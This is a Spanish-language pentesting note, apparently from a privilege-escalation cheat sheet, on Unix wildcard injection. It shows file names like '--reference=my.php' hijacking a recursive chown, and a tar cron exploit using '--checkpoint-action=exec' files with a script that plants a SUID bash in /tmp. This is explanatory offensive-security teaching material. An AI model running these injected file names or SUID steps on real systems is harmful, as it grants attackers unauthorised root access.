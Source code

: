 ahora si ejecutamos el siguiente comando para asigna un usuario y grupo cualquiera.

```bash
chown -R luis:luis *.php
```

Se ejecutar un chown recursivo para todos los archivos php asignando a luis como usuario y grupo, pero cuando llega al ultimo archivo se ejecuta esto por detras:

**–Referencia = RFILE** (use el propietario y el grupo de RFILE en lugar de especificar los valores OWNER: GROUP)

Dando como resultado:

```bash
ls -la

drwxrwxrwx	2 root	root	4096 Jun 12 22.:20 .
drwxrwxrwx 21 bad	bad	4096 Jun 12 22.:20 ..
-rw-rw-r--  1 chris chris	  23 Jun 12 22.:20 1.php
-rw-rw-r--  1 chris chris	  23 Jun 12 22.:20 2.php
-rw-rw-r--  1 chris chris	  23 Jun 12 22.:20 3.php
-rw-rw-r--  1 chris chris	  23 Jun 12 22.:20 4.php
-rw-rw-r--  1 chris chris	  23 Jun 12 22.:20 5.php
-rw-rw-r--  1 chris chris	  23 Jun 12 22.:20 6.php
-rw-rw-r--  1 chris chris	  23 Jun 12 22.:20 my.php
-rw-rw-r--  1 chris chris	  23 Jun 12 22.:20 --reference=my.php
```

**Esto tambien es valido con chmod y el parametro --reference para asignar los permisos de un archivo**

```bash
chmod --reference=reference_file file
```

Se puede jugar con enlaces simbolicos para apuntar a otros archivos desde otras carpetas.

```bash
ln -s /etc/passwd passwd
```

[Maquina Shrek HTB](https://medium.com/secjuice/hackthebox-shrek-writeup-46b8907fbc43)

### secuestro del propietario a traves de tar

imaginemos que dentro de `/home/user` hay una tarea cron que ejecuta lo siguiente:

```bash
cd /var/www/html #path vulnerable
tar czf /tmp/backup.tar.gz *
```

dentro de esa ruta hacemos lo siguiente:

```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /var/www/html/runme.sh

touch /var/www/html/--checkpoint=1

touch /var/www/html/--checkpoint-action=exec=sh\ runme.sh

```

